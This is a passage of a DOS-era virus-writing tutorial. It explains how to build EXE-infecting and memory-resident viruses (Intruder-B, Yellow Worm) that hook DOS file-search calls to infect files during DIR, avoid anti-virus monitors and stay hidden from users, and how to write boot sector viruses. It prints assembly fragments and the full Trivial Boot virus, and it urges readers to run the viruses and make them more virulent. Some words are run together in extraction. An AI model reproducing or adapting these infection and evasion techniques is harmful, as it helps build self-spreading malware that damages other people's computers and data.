To set up segments for the virus, new initial segment values for cs and ss must be placed in the EXE file header. Also, the old initial segments must be stored somewhere in the virus, so it can pass control back to the host program when it is finished executing. We will have to put two pointers to these segment references in the relocation pointer table, since they are relocatable references inside the virus code segment.
Adding pointers to the relocation pointer table brings up an important question. To add pointers to the relocation pointer table, it could be necessary to expand that table's size. Since the EXE Header must be a multiple of 16 bytes in size, relocation pointers are allocated in blocks of four four byte pointers. Thus, with two segment references, it would be necessary to expand the header only every other time, on the average. Alternatively, a virus could choose not to infect a file, rather than expanding the header. There are pros and cons for both possibilities. A load module can be hundreds of kilobytes long, and moving it is a time consuming chore that can make it very obvious that something is going on that shouldn't be. On the other hand, if the virus chooses not to move the load module, then roughly half of all EXE files will be naturally immune to infection. The Intruder-B virus takes the quiet and cautious approach that does not infect every EXE.
Suppose the main virus routine looks something like this:
VSEG SEGMENT
VIRUS:
mov ax,cs ;set ds=cs for virus
mov ds,ax
.
.
.
cli
mov ss,cs:[HOSTS]
mov sp,cs:[HOSTS+2]
sti
jmp DWORD PTR cs:[HOSTC]
HOSTS DW ?,?
HOSTC DW ?,?
Then, to infect a new file, the copy routine must perform the following steps:
All the initial segment values must be calculated from the size of the load module which is being infected. The code to accomplish this infection is in the routine INFECT.
As in the Timid-II virus, the search mechanism can be broken down into two parts: FINDEXE simply locates possible files to infect. FILE_OK determines whether a file can be infected.
The FILE_OK procedure will be almost the same as the one in Timid-II. It must open the file in question and determine whether it can be infected and make sure it has not already been infected. There are five criteria for determining whether an EXE file can be infected:
is greater than or equal to 8 (=4 times the number of relocatables the virus requires), then there is enough room in the relocation pointer table. This calculation is performed by the subroutine REL_ROOM, which is called by FILE_OK.
FINDEXE is identical to Timid-II's FIND_FILE except that it searches for EXE files instead of COM files.
The final step the virus must take is to pass control to the host program without dropping the ball. To do that, all the registers should be set up the same as they would be if the host program were being executed without the virus. We already discussed setting up cs:ip and ss:sp. Except for these, only the ax register is set to a specific value by DOS, to indicate the validity of the drive ID in the FCBs 1 in the PSP. If an invalid identifier (i.e. "D:", when a system has no D drive) is in the first FCB at 005C, al is set to FF Hex, and if the identifier is valid, al=0. Likewise, ah is set to FF if the identifier in the FCB at 006C is invalid. As such, ax can simply be saved when the virus starts and restored before it transfers control to the host. The rest of the registers are not initialized by DOS, so we need not be concerned with them.
Of course, the DTA must also be moved when the virus is first fired up, and then restored when control is passed to the host. Since the host may need to access parameters which are stored there, moving the DTA temporarily is essential for a benign virus since it avoids overwriting the startup parameters during the search operation.
The following program should be assembled and linked into an EXE program file. Execute it in a subdirectory with some other EXE files and find out which ones it will infect.
So far the viruses we've discussed have been fairly tame. Now we are ready to study a virus that I'd call very infective. The Yellow Worm virus, which is the subject of this chapter, combines the techniques of infecting EXE files with memory residence. It is a virus that can infect most of the files in your computer in less than an hour of normal use. In other words, be careful with it or you will find it an unwelcome guest in your computer.
A virus can go memory resident by directly modifying the memory allocation data structures used by DOS. This approach is perhaps the most powerful and flexible way for a virus to insert itself in memory. It does not require any specialized, version dependent knowledge of DOS, and it avoids the familiar TSR calls like Interrupt 21H, Function 31H which are certain to be watched by anti-virus monitors. This technique also offers much more flexibility than DOS' documented function calls.
First, let's take a look at DOS' memory allocation scheme to see how it allocates memory in the computer...
DOS allocates memory in blocks, called Memory Control Blocks, or MCBs for short. The MCBs are arranged into a chain which covers all available memory for DOS (below the 640K limit). Memory managers can extend this chain above 640K as well. Each MCB consists of a 16 byte data structure which sits at the start of the block of memory which it controls. It is detailed in Table 9.1.
| Offset | Size | Description |
| 0 | 1 | Block Type - This is always an "M" or a "A", as explained in the text. |
| 1 | 2 | Block Owner - This is the PSP segment of the program that owns this block of memory. |
| 3 | 2 | Block Size - The size of the memory block, in 16 byte paragraphs. This size does not include the MCB itself. |
| 5 | 3 | Reserved |
| 8 | 8 | File Name - A space sometimes used to store the name of the program using this block. |
Table 9.1: The Memory Control Block.
There are two types of MCBs, so-called M and Z because of the first byte in the MCB. The Z block is simply the end of the chain. M blocks fill the rest of the chain. The MCBs are normally managed by DOS, however other programs can find them and even manipulate them.
The utility programs which go by names like MEM or MAPMEM will display the MCB chain, or parts of it. To do this, they locate the first MCB from DOS's List of Lists. This List of Lists is a master control data block maintained by DOS which contains all sorts of system-level data used by DOS. Though it isn't officially documented, quite a bit of information about it has been published in books like Undocumented DOS.1 The essential piece of information needed to access the MCBs is stored at offset -2 in the List of Lists. This is the segment of the first Memory Control Block in the system. The address of the List of Lists is obtained in es:bx by calling undocumented DOS Interrupt 21H, Function 52H,
mov ah,52H
int 21H
Then a program can fetch this segment,
mov ax,es:[bx-2]
mov es,ax ;es=seg of 1st MCB
and, from there, walk the MCB chain. To walk the MCB chain, one takes the first MCB segment and adds BLK_SIZE, the size of the memory block to it (this is stored in the MCB). The new segment will coincide with the start of a new MCB. This process is repeated until one encounters a Z-block, which is the last in the chain. Code to walk the chain looks like this:
mov es,ax ;set es=MCB segment
NEXT: cmp BYTE PTR es:[bx],'Z' ;is it the Z block?
je DONE ;yes, all done
mov ax,es ;nope, go to next
inc ax ;block in chain
add ax,es:[bx+3]
mov es,ax
jmp NEXT
DONE:
A virus can install itself in memory in a number of creative ways by manipulating the MCBs. If done properly, DOS will respect these direct manipulations and it won't crash the machine. If the MCB structure is fouled up, DOS will almost certainly crash, with the annoying message "Memory Allocation Error, Cannot load COMMAND.COM, System Halted."
The Yellow Worm has a simple and effective method of manipulating the MCBs to go memory resident without announcing it to the whole world. What it does is divide the Z block - provided it is suitable - into an M and a Z block. The virus takes over the Z block and gives the new M block to the original owner of the Z block.
Typically, the Z block is fairly large, and the Yellow Worm just snips a little bit out of it - about 48 paragraphs. The rest it leaves free for other programs to use. Before the Yellow Worm takes the Z block, it checks it out to make sure grabbing it won't cause any surprises. Basically, there are two times when what the Yellow Worm does is ok: (1) When the Z block is controlled by the program which the Yellow Worm is part of (e.g. the Owner = current PSP), or (2) When the Z block is free (Owner = 0). If something else controls the Z block (a highly unlikely event), the Yellow Worm is polite and does not attempt to go resident.
Once the Yellow Worm has made room for itself in memory, it copies itself to the Z Memory Control Block using the segment of the MCB + 1 as the operating segment. Since the Worm starts executing at offset 0 from the host, it can just put itself at the same offset in this new segment. That way it avoids having to deal with relocating offsets.
Finally, the Yellow Worm installs an interrupt hook for Interrupt 21H, which activates the copy of itself in the Z MCB. That makes the virus active. Then the copy of the Yellow Worm in memory passes control back to the host.
The Yellow Worm returns control to the host in a manner similar to the Intruder-B in the last chapter. Namely, it restores the stack and then jumps to the host's initial cs:ip.
cli
mov ss,cs:[HOSTS] ;restore host stack
mov sp,cs:[HOSTS+2]
sti
jmp DWORD PTR cs:[HOSTC] ;and jump to host
Yellow Worm differs from Intruder-B in that it uses a different method to relocate the stack and code segment variables for the host. As you will recall, the Intruder-B let DOS relocate these variables by adding two pointers to the Relocation Pointer Table in the header. The trouble with this approach is that it left the virus unable to infect about half of all EXE files. The Yellow Worm circumvents this limitation by performing the relocation of ss and cs itself, rather than leaving the job to DOS. That means it doesn't have to modify the Relocation Pointer Table at all. As such, it can infect any DOS EXE.
Figure 9.1: Operation of the Yellow Worm.
To do the relocation of these segments directly really isn't very difficult. One needs only know that a segment of 0 in the disk file corresponds to a segment of PSP+10H in memory. Since the PSP segment is passed to an EXE program in the ds and es registers at startup, it can simply be used to relocte cs and ss for the host. The code to accomplish this looks like
START:
mov [PSP],ds ;save the PSP at start
.
.
.
mov ax,[PSP] ;get the PSP
add ax,10H ;add 10H for relocation
add [HOSTS],ax ;relocate initial ss
add [HOSTC+2],ax ;relocate initial cs
Not only is this process fairly simple, it simplifies the FILE_OK routine because it doesn't need to look at the Relocation Pointer Table, and INFECT, because it no longer needs to modify it.
DOS provides two sets of Interrupt 21H functions for manipulating files. we've already encountered the so-called handle-based functions and used them extensively. The other set of DOS functions are the File Control Block (FCB)-based functions. Rather than using a handle, these FCB-based functions set up a data structure in memory, called the File Control Block (See Table 9.2) and these functions are passed a pointer to the FCB to determine which file to access.
| Offset | Size | Description |
| -7 | 1 | Extension active if this is FF. Used to define file attribute. |
| -6 | 5 | Reserved |
| -1 | 1 | File attribute mask, when extension active |
| 0 | 1 | Drive flag. 0=Current, 1=A, etc. (set by user) |
| 1 | 8 | File name (set by user) |
| 9 | 3 | File name extension (set by user) |
| 12 | 2 | Current block number |
| 14 | 2 | Record size |
| 16 | 4 | File size in bytes |
| 20 | 2 | File date (coded same as directory entry) |
| 22 | 10 | Internal DOS work area |
| 32 | 1 | Current record number |
| 33 | 4 | Random record number |
Table 9.2: Structure of the File Control Block.
The FCB-based functions are a hold-over from CP/M. In the days of machines with only 64-kilobytes of RAM, the FCB was the only way to access a file. Ditto for DOS version 1.0. The handle-based functions were introduced with DOS 2.0. Really, all they did was make the FCB internal to DOS. (When you call a handle-based function, DOS still builds an FCB in its own internal memory.)
Now, normally there is no real reason to use the FCB-based functions. The handle-based functions are just easier to use. They let you use a simple number to access a file and they let you transfer data anywhere easily, whereas the FCB-based functions only put data in the Disk Transfer Area. The handle-based functions also let you open files in directories other than the current one - another feature the FCB-based functions do not support. There are, however, some exceptions to this rule:
The Yellow Worm hooks Interrupt 21H, Functions 11H and 12H, which are the FCB-based file search functions. Yellow Worm uses the FCB-based functions because they are what DOS uses when you type "DIR" or "COPY" at the command line. As such, any time one of these basic DOS commands is invoked, the virus is called into action.
To use Functions 11H and 12H, one sets up an FCB with the wildcard "?" to construct a file name range to search for. Then one calls the function with ds:dx set to point to the FCB. On return, DOS sets up the DTA with a new FCB with the name of a file it found that matched the search criteria in it. (See Figure 9.3) The original wildcard FCB must be left alone between calls to Function 11H and subsequent calls to Function 12H so the next search will work properly. The FCB with the file DOS found can be used as desired.
When one of these functions is trapped by the virus in its interrupt 21H hook, it first passes the call on to DOS using
pushf ;call original int 21H handler
call DWORD PTR cs:[OLD_21H]
When the call returns, the Yellow Worm examines what it returned. The virus first examines the file name entry in the FCB to see if the file just found is an EXE file. If so, the virus calls the FILE_OK function to determine whether it's fit to infect.
The checks performed by FILE_OK are identical to those performed by Intruder-B's FILE_OK. However, since the Yellow Worm has hooked FCB-based functions, it first copies the host file name into a buffer, FNAME, in the virus, then it opens and operates on the host using the usual handle-based file functions.
The infection process which the Yellow Worm uses is virtually identical to Intruder-B, except it needn't mess with the relocation Pointer Table. Specifically, the virus must
The Yellow Worm is automatically self-detecting. It doesn't need to do anything to determine whether it's already in memory because of the validity checks it makes when splitting the Z-block of memory. As you will recall, if that block isn't either free or belonging to the current proces, the Yellow Worm will not go resident. However, when the Yellow Worm is resident, the Z-block belongs to itself. It isn't free, and it doesn't belong to the current process. Thus, the Yellow Worm will never load itself in memory more than once.
Making a small Z block of memory at the end of DOS memory has a very interesting side-effect: it prevents Microsoft Windows from loading. If you put such a creature in memory, and then attempt to execute WIN.COM, Windows will begin to execute, but then inexplicably bomb out. It doesn't give you any kind of error messages or anything. It simply stops dead in its tracks and then returns you to the DOS prompt.
The Yellow Worm could deal with Windows incompatibilities in a number of ways. Since running in a DOS box under Windows is no problem for it, it could check to see if Windows is already installed. If installed, the virus could proceed on its merry way. To check to see if Windows is installed, the interrupt
mov ax,1600H
int 2FH
is just what is needed. If Windows is installed, this will return with al=major version number and ah=minor version number. Without Windows, it will return with al = 0. (Some Windows 2.X versions return with al=80H, so you have to watch for that, too.)
There are a number of ways one could handle the situation when Windows is not installed. The politest thing to do would be to simply not install. However, the virus is then completely impotent on computers that aren't running Windows. Since the Yellow Wormisjusta demovirus to show the readerhow todothesethings, this is the approach it actually takes. It could instead be really impolite and just let Windows crash. That's more than impolite though - it is a clue to the user that something is wrong, and though he may do all the wrong things to fix it, you can bet he won't put up with never being able to run Windows. He'll get to the bottom of it. And when he does, the virus will be history.
The ideal thing to do would be to find a way for the virus to live through a Windows startup. That is a difficult proposition, though. The Yellow Worm could hook Interrupt 2FH, and monitor for attempts to install Windows. When Windows starts up, it broadcasts an Interrupt 2FH with ax=1605H. At that point, the Yellow Worm could, for example, attempt to uninstall itself. This is easier said than done, though. For example, if it tries to unhook Interrupt 21H, one quickly finds that it can't at this stage of the game - Windows has already copied the interrupt vector table to implement it in virtual 8086 mode, so theWormcan't unhook itself. What it can do is turn the last M block of memory into a Z block. That will fool Windows into thinking that there's less memory in the system than there really is. Windows will then load and leave the virus alone. The problem with this approach is that it decreases the available system memory a bit, and the Yellow Worm can no longer detect itself in memory.
The real solution is to use a trick we'll discuss in the context of boot sector viruses: in addition to fooling with the MCBs, one must modify the amount of memory which the BIOS tells DOS it has. This number is stored at 0000:0413H as a word which is the number of kilobytes of standard memory available - normally 640. These possibilities are explored in the exercises, as well as later, when we discuss multi-partite viruses.
The Yellow Worm is very infective, so if you want to test it, I recommend you follow a strict set of procedures, or you will find it infecting many files that you did not intend for it to infect.
To test the Yellow Worm, prepare a directory with the worm and a few test EXE files to infect. Next load Windows 3.1 and go into a Virtual 8086 Mode DOS box. You can only do that on a 386 or higher machine. Once in the DOS box, go to your test subdirectory, and execute the Worm. It is now active in memory. Type "DIR" to do a directory of your test directory. You'll see the directory listing hesitate as the Worm infects every file in the directory. Once you're done, type "EXIT" and return to Windows. This will uninstall the Yellow Worm, making your computer safe to use again.
The following code can be assembled using MASM, TASM or A86 into an EXE file and run.
The Yellow Worm Source Listing
The following three exercises will make the Yellow Worm much more interesting, but also more virulent:
The boot sector virus can be the simplest or the most sophisticated of all computer viruses. On the one hand, the boot sector is always located in a very specific place on disk. Therefore, both the search and copy mechanisms can be extremely quick and simple, if the virus can be contained wholly within the boot sector. On the other hand, since the boot sector is the first code to gain control after theROMstartup code,itisverydifficult tostopbeforeit loads. If one writes a boot sector virus with sufficiently sophisticated anti-detection routines, it can also be very difficult to detect after it loads, making the virus nearly invincible.
In the next three chapters we will examine several different boot sector viruses. This chapter will take a look at two of the simplest boot sector viruses just to introduce you to the boot sector. The following chapters will dig into the details of two models for boot sector viruses which have proven extremely successful in the wild.
To understand the operation of a boot sector virus one must first understand how a normal, uninfected boot sector works. Since the operation of a boot sector is hidden from the eyes of a casual user, and often ignored by books on PC's, we will discuss them here.
When a PC is first turned on, the CPU begins executing the machine language code at the location F000:FFF0. The system BIOS ROM (Basic-Input-Output-System Read-Only-Memory) is located in this high memory area, so it is the first code to be executed by the computer. This ROM code is written in assembly language and stored on chips (EPROMS) inside the computer. Typically this code will perform several functions necessary to get the computer up and running properly. First, it will check the hardware to see what kinds of devices are a part of the computer (e.g., color or mono monitor, number and type of disk drives) and it will see whether these devices are working correctly. The most familiar part of this startup code is the memory test, which cycles through all the memory in the machine, displaying the addresses on the screen. The startup code will also set up an interrupt table in the lowest 1024 bytes of memory. This table provides essential entry points (interrupt vectors) so all programs loaded later can access the BIOS services. The BIOS startup code also initializes a data area for the BIOS starting at thememorylocation0040:0000H, right above the interrupt vector table. Once these various house-keeping chores are done, the BIOS is ready to transfer control to the operating system for the computer, which is stored on disk.
But which disk? Where on that disk? What does it look like? How big is it? How should it be loaded and executed? If the BIOS knew the answers to all of these questions, it would have to be configured for one and only one operating system. That would be a problem. As soon as a new operating system (like OS/2) or a new version of an old familiar (like MS-DOS 6.22) came out, your computer would become obsolete! For example, a computer set up with PC-DOS 5.0 could not run MS-DOS 3.3, 6.2, or Linux. A machine set up with CPM-86 (an old, obsolete operating system) could run none of the above. That wouldn't be a very pretty picture.
The boot sector provides a valuable intermediate step in the process of loadingthe operatingsystem.Itworkslikethis:theBIOS remains ignorant of theoperating system you wishtouse.However, it knows to first go out to floppy disk drive A: and attempt to read the first sector on that disk (at Track 0, Head 0, Sector 1) into memory at location 0000:7C00H. If the BIOS doesn't find a disk in drive A:, it looks for the hard disk drive C:, and tries to load its first sector. (And if it can't find a disk anywhere, it will either go into ROM Basic or generate an error message, depending on what kind of a computer it is. Some BIOS's let you attempt to boot from C: first and then try A: too.) Once the first sector (the boot sector) has been read into memory, the BIOS checks the last two bytes to see if they have the values 55H AAH. If they do, the BIOS assumes it has found a valid boot sector, and transfers control to it at 0000:7C00H. From this point on, it is the boot sector's responsibility to load the operating system into memory and get it going, whatever the operating system may be. In this way the BIOS (and the computer manufacturer) avoids having to know anything about what operating system will run on the computer. Each operating system will have a unique disk format and its own configuration, its own system files, etc. As long as every operating system puts a boot sector in the first sector on the disk, it will be able to load and run.
Since a sector is normally only 512 bytes long, the boot sector must be a very small, rude program. Generally, it is designed to load another larger file or group of sectors from disk and then pass control to them. Where that larger file is depends on the operating system. In the world of DOS, most of the operating system is kept in three files on disk. One is the familiar COMMAND.COM and the other two are hidden files (hidden by setting the "hidden" file attribute) which are tucked away on every DOS boot disk. These hidden files must be the first two files on a disk in order for the boot sector to work properly. If they are anywhere else, DOS cannot be loaded from that disk. The names of these files depend on whether you're using PC-DOS (from IBM) or MS-DOS (from Microsoft). Under PC-DOS, they're called IBMBIO.COM and IBMDOS.COM. Under MS-DOS they're called IO.SYS and MSDOS.SYS. MS-DOS 6.0 and 6.2 also have a file DBLSPACE.BIN which is used to interpret double space compressed drives. DR-DOS (from Digital Research) uses the same names as IBM.
When a normal DOS boot sector executes, it first determines the important disk parameters for the particular disk it is installed on. Next it checks to see if the two hidden operating system files are on the disk. If they aren't, the boot sector displays an error message and stops the machine. If they are there, the boot sector tries to load the IBMBIO.COM or IO.SYS file into memory at location 0000:0700H. If successful, it then passes control to that program file, which continues the process of loading the PC/MS-DOS operating system. That's all the boot sector on a floppy disk does.
The boot sector also can contain critical information for the operating system. In most DOS-based systems, the boot sector will contain information about the number of tracks, heads, sectors, etc., on the disk; it will tell how big the FAT tables are, etc. Although the information contained here is fairly standardized (see Table 10.1), not every version of the operating system uses all of this data in the same way. In particular, DR-DOS is noticeably different.
A boot sector virus can be fairly simple - at least in principle. All that such a virus must do is take over the first sector on the disk. From there, it tries to find uninfected disks in the system. Problems arise when that virus becomes so complicated that it takes up too much room. Then the virus must become two or more sectors long, and the author must find a place to hide multiple sectors, load them, and copy them. This can be a messy and difficult job. However, it is not too difficult to design a virus that takes up only a single sector. This chapter and the next will deal with such viruses.
Rather than designing a virus that will infect a boot sector, it is much easier to design a virus that simply is a self-reproducing boot sector. Before we do that, though, let's design a normal boot sector that can load DOS and run it. By doing that, we'll learn just what a boot sector does. That will make it easier to see what a virus has to work around so as not to cause problems.
To start with, let's take a look at the basic structure of a boot sector. The first bytes in the sector are always a jump instruction to the real start of the program, followed by a bunch of data about the disk on which this boot sector resides. In general, this data changes from disk type to disk type. All 360K disks will have the same data, but that will differ from 1.2M drives and hard drives, etc. The standard data for the start of the boot sector is described in Table 10.1. It consists of a total of 43 bytes of information. Most of this information is required in order for DOS and the BIOS to use the disk drive and it should never be changed inadvertently. The one exception is the DOS_ID field. This is simply eight bytes to put a name in to identify the boot sector. It can be anything you like.
| Field Name | Offset | Size | Description |
|---|---|---|---|
| DOS_ID | 7C03 | 8 | Bytes ID of Format program |
| SEC_SIZE | 7C0B | 2 | Sector size, in bytes |
| SECS_PER_CLUST | 7C0D | 1 | Number of sectors per cluster |
| FAT_START | 7C0E | 2 | Starting sector for the 1st FAT |
| FAT_COUNT | 7C10 | 1 | Number of FATs on the disk |
| ROOT_ENTRIES | 7C11 | 2 | No. of entries in root directory |
| SEC_COUNT | 7C13 | 2 | Number of sectors on this disk |
| DISK_ID | 7C14 | 1 | Disk ID (FD Hex = 360K, etc.) |
| SECS_PER_FAT | 7C15 | 2 | No. of sectors in a FAT table |
| SECS_PER_TRK | 7C18 | 2 | Number of sectors on a track |
| HEADS | 7C1A | 2 | No. of heads (sides) on disk |
| HIDDEN_SECS | 7C1C | 2 | Number of hidden sectors |
Table 10.1: The boot sector data area.
Right after the jump instruction, the boot sector sets up the stack. Next, it sets up the Disk Parameter Table also known as the Disk Base Table. This is just a table of parameters which the BIOS uses to control the disk drive (Table 10.2) through the disk drive controller (a chip on the controllercard).More information on these parameters can be found in Peter Norton's Programmer's Guide to the IBM PC, and similar books. When the boot sector is loaded, the BIOS has already set up a default table, and put a pointer to it at the address 0000:0078H (Interrupt 1E Hex). The boot sector replaces this table with its own, tailored for the particular disk. This is standard practice, although in many cases the BIOS table is perfectly adequate to access the disk.
| Offset | Description |
| 0 | Specify Byte 1: head unload time, step rate time |
| 1 | Specify Byte 2: head load time, DMA mode |
| 2 | Time before turning motor off, in clock ticks |
| 3 | Bytes per sector (0=128, 1=256, 2=512, 3=1024) |
| 4 | Last sector number on a track |
| 5 | Gap length between sectors for read/write |
| 6 | Data transfer length (set to FF Hex) |
| 7 | Gap length between sectors for formatting |
| 8 | Value stored in each byte when a track is formatted |
| 9 | Head settle time, in milliseconds |
| A | Motor startup time, in 1/8 second units |
Table 10.2: The Disk Base Table.
Rather than simply changing the address of the interrupt 1EH vector, the boot sector goes through a more complex procedure that allows the table to be built both from the data in the boot sector and the data setupbythe BIOS. It does this by locating theBIOS default table and reading it byte by byte, along with a table stored in the boot sector. If the boot sector's table contains a zero in any given byte, that byte is replaced with the corresponding byte from the BIOS' table, otherwise the byte is left alone. Once the new table is built inside the boot sector, the boot sector changes interrupt vector 1EH to point to it. Then it resets the disk drive through BIOS Interrupt 13H, Function 0, using the new parameter table.
The next step, locating the system files, is done by finding the start of the root directory on disk and looking at it. The disk data at the start of the boot sector has all the information we need to calculate where the root directory starts. Specifically,
First root directory sector = FAT_COUNT * SECS_PER_FAT + HIDDEN_SECS + FAT_START
so we can calculate the sector number and read it into memory at 0000:0500H, a memory scratch-pad area. From there, the boot sector looks at the first two directory entries on disk. These are just 32 byte records, the first eleven bytes of which is the file name. (See Figure 3.4) One can easily compare these eleven bytes with file names stored in the boot record. Typical code for this whole operation looks like this:
LOOK_SYS:
MOV AL,BYTE PTR [FAT_COUNT] ;get fats per disk
XOR AH,AH
MUL WORD PTR [SECS_PER_FAT] ;multiply by sectors per fat
ADD AX,WORD PTR [HIDDEN_SECS] ;add hidden sectors
ADD AX,WORD PTR [FAT_START] ;add starting fat sector
PUSH AX
MOV WORD PTR [DOS_ID],AX ;root dir, save it
MOV AX,20H ;dir entry size
MUL WORD PTR [ROOT_ENTRIES] ;dir size in ax
MOV BX,WORD PTR [SEC_SIZE] ;sector size
ADD AX,BX ;add one sector
DEC AX ;decrement by 1
DIV BX ;ax=# sectors in root dir
ADD WORD PTR [DOS_ID],AX ;DOS_ID=start of data
MOV BX,OFFSET DISK_BUF ;set up disk read buffer @ 0:0500
POP AX ;and go convert sequential
CALL CONVERT ;sector number to bios data
MOV AL,1 ;prepare for a 1 sector disk read
CALL READ_DISK ;go read it
MOV DI,BX ;compare first file with
MOV CX,11 ;required file name
MOV SI,OFFSET SYSFILE_1 ;of first system file for MS-DOS
REPZ CMPSB
ERROR2:
JNZ ERROR2 ;not the same - an error, so stop
Once the boot sector has verified that the system files are on disk, it tries to load the first file. It assumes that the first file is located at the very start of the data area on disk, in one contiguous block. So to load it, the boot sector calculates where the start of the data area is,
First Data Sector = FRDS + [(32*ROOT_ENTRIES) + SEC_SIZE - 1]/SEC_SIZE
and the size of the file in sectors. The file size in bytes is stored at offset 1CH from the start of the directory entry at 0000:0500H. The number of sectors to load is
SIZE IN SECTORS = (SIZE_IN_BYTES/SEC_SIZE) + 1
The file is loaded at 0000:0700H. Then the boot sector sets up some parameters for that system file in its registers, and transfers control to it. From there the operating system takes over the computer, and eventually the boot sector's image in memory is overwritten by other programs.
Note that the size of this file cannot exceed 7C00H - 0700H, plus a little less to leave room for the stack. That's about 29 kilobytes. If it's bigger than that, it will run into the boot sector in memory. Since that code is executing when the system file is being loaded, overwriting it will crash the system. Now, if you look at the size of IO.SYS in MS-DOS 6.2, you'll find it's over 40K long! How, then, can the boot sector load it? One of the dirty little secrets of DOS 5.0 and 6.X is that the boot sector does not load the entire file! It just loads what's needed for startup and then lets the system file itself load the rest as needed.
Since the boot sector is loaded and executed before DOS, none of the usual DOS interrupt services are available to it. It cannot simply call INT 21H to do file access, etc. Instead it must rely on the services that the BIOS provides, which are set up by the ROM startup routine. The most important of these services is Interrupt 13H, which allows programs access to the disk drives.
Interrupt 13H offers two services we will be interested in, and they are accessed in about the same way. The Disk Read service is specified by setting ah=2 when int 13H is called, and the Disk Write service is specified by setting ah=3.
On a floppy disk or a hard disk, data is located by specifying the Track (or Cylinder), the Head, and the Sector number of the data. (See Figure 10.1). On floppy disks,the Track is anumber from 0 to 39 or from 0 to 79, depending on the type of disk, and the Head corresponds to which side of the floppy is to be used, either 0 or 1. On hard disks, Cylinder numbers can run into the hundreds or thousands, and the number of Heads is simply twice the number of physical platters used in the disk drive. Sectors are chunks of data, usually 512 bytes for PCs, that are stored on the disk. Typically anywhere from 9 to 64 sectors can be stored on one track/head combination.
Figure 10.1: Disk Track, Head and Sector organization.
To read sectors from a disk, or write them to a disk, one must pass Interrupt 13H several parameters. First, one must set al equal to the number of sectors to be read or written. Next, dl must be the drive number (0=A:, 1=B:, 80H=C:, 81H=D:) to be read from. The dh register is used to specify the head number, while cl contains the sector, and ch contains the track number. In the event there are more than 256 tracks on the disk, the track number is broken down into two parts, and the lower 8 bits are put in ch, and the upper two bits are put in the high two bits of cl. This makes it possible to handle up to 64 sectors and 1024 cylinders on a hard disk. Finally, one must use es:bx to specify the memory address of a buffer that will receive data on a read, or supply data for a write. Thus, for example, to read Cylinder 0, Head 0, Sector 1 on the A: floppy disk into a buffer at ds:200H, one would code a call to int 13H as follows:
mov ax,201H ;read 1 sector
mov cx,1 ;Head 0, Sector 1
mov dx,0 ;Drive 0, Track 0
mov bx,200H ;buffer at offset 200H
push ds
pop es ;es=ds
int 13H
When Interrupt 13H returns, it uses the carry flag to specify whether it worked or not. If the carry flag is set on return, something caused the interrupt service routine to fail.
The BASIC.ASM listing below is a simple boot sector to boot the MS-DOS operating system. It differs from the usual boot sector in that we have stripped out all of the unnecessary functionality. It does an absolute minimum of error handling. The usual boot sector displays several error messages to help the user to try to remedy a failure. BASIC.ASM isn't that polite. Rather than telling the user something is wrong, it just stops. Whoever is using the computer will get the idea that something is wrong and try a different disk anyhow. This shortcut eliminates the need for error message strings and the code required to displaythem.That cansaveuptoa hundred bytes.
Secondly, BASIC.ASM only checks the system for the first system file before loading it. Rarely is one system file present and not the other, since both DOS commands that put them on a disk (FORMAT and SYS) put them there together. If for some reason the second file does not exist, our boot sector will load and execute the first one, rather than displaying an error message. The first system program will just fail when it goes to look for the second file and it's not there, displaying an error message. The result is practically the same. Trimming the boot sector in this fashion makes it necessary to search for only one file instead of two, and saves about 30 bytes.
Finally, the BASIC.ASM program contains an important mechanism that boot sector viruses need, even though it isn't a virus: a loader. A boot sector isn't an ordinary program that you can just load and run like an EXE or a COM file. Instead, it has to be placed in the proper place on the disk (Track 0, Head 0, Sector 1) in order to be useful. Yet when you assemble an ASM file, you normally create either a COM or an EXE file. The loader bridges this gap.
To make BASIC.ASM work, it should be assembled into a COM file. The boot sector itself is located at offset 7C00H in this COM file. That is done by simply placing an
ORG 7C00H
instruction before the boot sector code. At the start of the COM file, at the usual offset 100H, is located a small program which
Then the result of executing BASIC.COM from DOS is that the disk in drive A: will have our boot sector on it instead of the usual DOS boot sector. That disk should still work just like it always did. If the boot sector we placed on that disk was a virus, the A: drive would just have been infected.
The following program can be assembled and executed as a COM file using TASM, MASM or A86:
The most trivial boot sector virus imaginable could actually be much simpler than the simple boot sector we've just discussed. It would be an "overwriting" virus in the sense that it would not attempt to load the operating system or anything - it would just replicate. The code for such a virus is just a few bytes. We'll call it Trivial Boot, and it looks like this:
.model small
.code
ORG 100H
START: call TRIV_BOOT ;loader just calls the virus
ret ;and exits to DOS
ORG 7C00H
TRIV_BOOT:
mov ax,0301H ;write one sector
mov bx,7C00H ;from here
mov cx,1 ;to Track 0, Sector 1, Head 0
mov dx,1 ;on the B: drive
int 13H ;do it
mov ax,0301H ;do it again to make sure it works
int 13H
ret ;and halt the system
END START
This boot sector simply copies itself from memory at 7C00H to Track 0, Head 0, Sector 1 on the B: drive. If you start your computer with a disk that uses it as the boot sector in the A: drive and an uninfected disk in the B: drive, the B: drive will get a copy of the virus in its boot sector, and the computer will stop dead in its tracks. No operating system will get loaded and nothing else will happen.
Because no operating system will ever get loaded, the data area in the boot sector is superfluous. As such, Trivial Boot just ignores it.
Notice that the Trivial Boot attempts a write twice instead of just once. There is an essential bit of technology behind this. When a diskette in a system has just been changed, the first attempt to use Interrupt 13H, the Disk BIOS, will result in an error. Thus, the first read (Int 13H, ah=2) or write (Int 13H, ah=3) done by a virus may fail, even though there is a disk in the drive and it is perfectly accessible. As such, the first attempt to read or write should always be duplicated.
Obviously, the Trivial Boot virus isn't very viable. Firstly, it only works on dual floppy systems, and secondly, the user will immediately notice that something is wrong and take steps to remedy the situation. It is just a dumb, overwriting virus like the Mini-44.
While Trivial Boot isn't much good for replicating, combining it with the basic boot sector we've discussed does result in a virus that might qualify as the minimal non-destructive boot sector virus. The Kilroy-B virus does exactly this. It is a floppy-only virus that (a) copies itself to the B: drive, and (b) loads the MS-DOS operating system and runs it.
If a boot sector virus is going to preserve the data area in a boot sector, it must read the original boot sector, and either copy itself over the code, or copy the data into itself, and then write the new boot sector back to disk. That is essentially the infection mechanism.
To turn BOOT.ASM into a virus, one need only call an INFECT subroutine after the essential data structures have been set up, but before the operating system is loaded.
When a PC with the Kilroy-B in drive A: is turned on, the virus is the first thing to gain control after the BIOS. After setting up the stack and the segment registers, Kilroy-B simply attempts to read the boot sector from drive B into a buffer at 0000:0500H. If no disk is installed in B:, then the virus will get an error on the Interrupt 13H read function. When it sees that, it will simply skip the rest of the infection process and proceed to load the operating system.
If the read is successful, the virus will copy its own code into the buffer at 0000:0500H. Specifically, it will copy the bytes at 7C00H to 7C0AH, and 7C1EH to 7DFDH down to offset 500H. It skips the data area in the boot sector, so that the new boot sector at 500H will have virus code mixed with the original disk data.
